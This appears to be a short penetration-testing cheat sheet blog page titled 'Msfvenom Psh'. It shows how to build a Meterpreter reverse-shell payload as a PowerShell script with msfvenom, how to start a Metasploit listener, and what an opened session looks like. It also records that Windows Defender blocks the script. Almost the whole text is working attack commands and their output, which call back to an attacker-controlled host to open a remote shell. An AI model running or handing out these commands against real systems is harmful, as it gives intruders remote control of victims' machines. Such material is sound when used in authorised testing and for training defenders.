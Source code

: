 ```yaml
---
title: Msfvenom Psh
date: 2021-04-01T16:14:32+05:30
lastmod: 2021-04-01T16:14:32+05:30
author: Animesh Roy
avatar: /img/avatar.jpeg
authorlink: https://anir0y.in
cover: /img/cover.jpg
categories:
  - chatsheet
tags:
  - metasploit
  - tools
draft: false
---
```


# meterpreter reverse shell with powershell

## Create Shell

```bash 
root@kali:~# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.6 LPORT=443 -f psh -o meterpreter-64.ps1
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 510 bytes
Final size of psh file: 3255 bytes
Saved as: meterpreter-64.ps1
```

## Setup listener

```bash
msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.10.10.6; set lport 443; set ExitOnSession false; exploit -j"
```

## Interact
```
...[snip]
payload => windows/x64/meterpreter/reverse_tcp
lhost => 10.10.10.6
lport => 443
ExitOnSession => false
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 10.10.10.6:443 
msf exploit(multi/handler) > [*] Sending stage (206403 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.10.6:443 -> 10.10.10.5:53418) 

msf exploit(multi/handler) > sessions -l

Active sessions
===============

Id Name Type Information Connection
-- ---- ---- ----------- ----------
1 meterpreter x64/windows [redacted]
```

## if Windows Defender is enabled

```powershell
PS C:\PENTEST> C:\PENTEST\meterpreter-64.ps1
At C:\PENTEST\meterpreter-64.ps1:1 char:1
+ $VlSIhDyrsor = @"
+ ~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
+ CategoryInfo : ParserError: (:) [], ParentContainsErrorRecordException
+ FullyQualifiedErrorId : ScriptContainedMaliciousContent


PS C:\PENTEST>
```

 ## Summary: 
 The the generated ps1 can be saved to disk, and is not detected as a virus , and runs succesfull creating a shell, but it can’t run with defender enabled on  windows 10 box.
